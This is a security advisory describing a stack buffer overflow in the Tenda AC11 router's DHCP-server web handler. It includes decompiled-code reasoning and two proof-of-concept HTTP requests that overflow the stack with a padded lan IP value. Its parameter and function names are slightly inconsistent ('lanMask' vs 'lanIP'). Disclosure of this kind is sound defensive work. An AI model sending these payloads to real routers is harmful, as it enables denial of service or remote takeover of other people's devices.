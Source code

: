 # Tenda Router AC11 Vulnerability

This vulnerability lies in the `/goform/rc_dhcp_server` page which influences the lastest version of Tenda Router AC11. (FYI, lastest version of this product is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html))

## Vulnerability description

There is a stack buffer overflow vulnerability in function `sub_800C0460` (page `/goform/rc_dhcp_server`).

This function uses `strcpy` to copy the string pointed by `v2` into a stack buffer pointed by `v6`. `v2` is directly retrived from the nvram variable `lan_ipaddr` without any security check.

![1](1.PNG)

the `lan_ipdaddr` variable can be controlled by attacker by calling the function `sub_800CC270`(page `/goform/start_dhcp_server`) which gets in a parameter called `lanMask` into varialbe `v10`, which can then be used to assign to the `lan_ipaddr` variable.

![2](2.PNG)

If function `gstrcmp_0(v43,v10)` doesn't return zero ,and function `sub_800d4cf8` returns zero, then the nvram variable `lan_ipaddr` will be set as `v10`.

`v10` is the input vector,and `v43` is a fix string, so it's easy to make them different to make function  `gstrcmp` returns not zero.

![3](3.PNG)


In function `sub_800d4cf8`,if we want it returns zero,we must make `strlen(a1)` is bigger than 7,it's easy to make.And the return value of function `sub_80236d90` must be zero. 

In function `sub_800236d90` , it will do IP legitimacy check.For example,`a1` is `192.168.1.1`,and it will use function like `atoi` to make string to number.And check like `192 < 256` , `168 < 256` , `1 < 256` and so on.But it will not check the length. So we can get a very long string like `192.168.1.0000000000000000000000000000000000000000000000000000000000000000000000001` but also pass the check .And after the check,function `sub_80236d90` will give `v4` a 4-bytes ip address like `0xc0a80101`. If `a1` can pass the check, `v2` will be zero, but `a1` will not get changed and will be set in nvram variable `lan_ipaddr`. So we can make `lan_ipaddr` variable in nvram is a very long string.


![4](4.PNG)


So by first setting the `lan_ipaddr` and then requesting the page `/goform/rc_dhcp_server`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## POC

```plain
POST /goform/start_dhcp_server HTTP/1.1
Host: 192.168.0.1
Content-Length: 1043
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&lanIP=192.168.1.000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&LEDCloseTIme=1270219&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true
```

```plain
POST /goform/rc_dhcp_server HTTP/1.1
Host: 192.168.0.1
Content-Length: 103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

## Acknowledgment

Credit to [@Yu3H0](https://github.com/Yu3H0), [@Lnkvct](https://github.com/Lnkvct) , and [@cpegg](https://github.com/cpeggg) from Shanghai Jiao Tong University.
